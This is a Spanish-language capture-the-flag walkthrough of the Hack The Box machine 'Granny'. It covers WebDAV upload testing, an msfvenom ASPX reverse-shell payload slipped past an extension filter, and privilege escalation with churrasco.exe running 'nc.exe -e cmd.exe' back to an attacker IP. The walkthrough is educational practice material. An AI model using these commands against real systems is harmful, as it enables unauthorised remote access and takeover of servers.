








Granny
- Realizamos un escaneo de puertos
- Solo encontramos el puerto 80 activo
- Realizo un escaneo de subdirectorios y subdominios pero no encuentro nada
- Con la extensión -sV veo que puedo realizar solicitudes POST
- Ejecuto davtest para ver si puedo subir archivos davtest -url http://10.10.10.15

- Vemos que podemos subir varios tipos de archivo
- Creo un reverse shell con msfvenom msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=<IP> LPORT=4444 -o shell.aspx
- Cambiamos la extensión para poder subir el archivo .txt mv shell.aspx shell.txt
- Ahora usaré CADAVER, una herramienta para WebDAV que me permite subir el archivo


- Lo ejecuto en el navegador y obtengo la reverse
- Veo que estoy con low privileges por lo que hago un systeminfo para ver que version tiene y ver por donde escalar privilegios

- Encuentro esto para escalar privilegios Token Kidnapping Local Privilege Escalation
- Esto me permite ejecutar comandos como administrador
- cambio la extension para poder subir la script


- Ahora que tenemos subido nc para poner la reverse shell

- Cojemos y ejecutamos nc con la script para ejecutarlo como administrador. C:\Inetpub\wwwroot>churrasco.exe -d "\inetpub\wwwroot\nc.exe -e cmd.exe <IP> 1234"
- Obtenemos el usuario administrator
